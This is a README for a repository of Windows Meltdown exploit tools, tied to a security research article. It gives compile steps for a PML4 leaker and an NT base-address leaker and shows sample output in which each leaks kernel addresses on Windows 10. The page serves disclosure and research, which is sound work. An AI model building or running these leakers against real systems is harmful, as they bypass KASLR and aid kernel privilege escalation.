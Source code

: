 
# Windows Shadow leaking

This repository contains the Windows Meltdown exploits described in the [Meltdown Reloaded: Breaking Windows KASLR by Leaking KVA Shadow Mappings](https://labs.bluefrostsecurity.de/meltdown-reloaded-breaking-windows-kaslr), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Sources compilation

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute `cl.exe pml4leak-melt.c`

For compiling the NT leaker:
- Execute `cl.exe ntleak-melt.c`

## Output examples

PML4 table address leaker output example:

```
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
```

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

```
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
```
